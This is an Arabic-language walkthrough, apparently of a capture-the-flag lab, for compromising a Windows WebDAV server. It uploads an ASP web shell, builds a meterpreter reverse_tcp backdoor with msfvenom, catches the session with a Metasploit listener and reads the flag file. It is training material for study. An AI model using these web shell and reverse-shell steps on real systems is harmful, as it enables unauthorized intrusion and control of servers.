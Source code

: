 طبعا خلونا الان نرفع ويب شيل  
```bash
put /usr/share/webshells/asp/webshell.asp  
```  
الان نرجع الموقع وندخل مسار webdav ونسجل دخول  
الان حصلنا الويب شيل نضغط عليه ونقدر ننفذ اي كوماند نبيه  
```bash
whoami  
dir  
```  

طيب الان نبي ناخذ meterpreter session عشان نقدر نسوي اشياء اكثر مثل البفتنق وغيرها  

خلونا الان نسوي لنا ملف backdoor ونرفع بامر PUT  
```bash
ip addr [to identify your ip]  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$attacker_ip LPORT=$attacker_port -f exe > backdoor.exe  
file backdoor.exe  
```  
الان سوينا الباك دور حقنا خلونا نرفعه عن طريق cadaver  
```bash
put /root/backdoor.exe  
```  
الان رفعنا الباك دور  
خلونا نرجع للموقع وندخل على مسار webdav ونسوي login  
وندخل على الويب شيل  
وننفذ هذا الامر الان  
```bash
dir C:\  
```  
حصلنا الفلاق الان خلونا نقرا الفلاق  
```bash
type c:\flag.txt  
```  
حلو الان خلونا ناخذ meterpreter session  
اول شي نفتح الليسنر  
```bash
use exploit/multi/handler  
set LHOST 10.10.15.6  
set LPORT 4444  
set PAYLOAD windows/meterpreter/reverse_tcp  
exploit   
```  
الان خلونا نرجع للموقع وندور وين ملف الباك دور الي رفعناه  
خلونا نشغل الان الملف بعد ماحصلنا الملف  
```bash
C:\inetpub\wwwroot\webdav\backdoor.exe  
```  
نشوف انه فتح لنا الباك دور الان ولو نرجع للميتاسبلويت بنحصل السيشن جتنا  
خلونا ننفذ بعض الاوامر  
```bash
sysinfo  
getuid  
```  
خلونا نحاول الان نرقي صلاحيتنا لانه مامعنا اعلى صلاحيات  
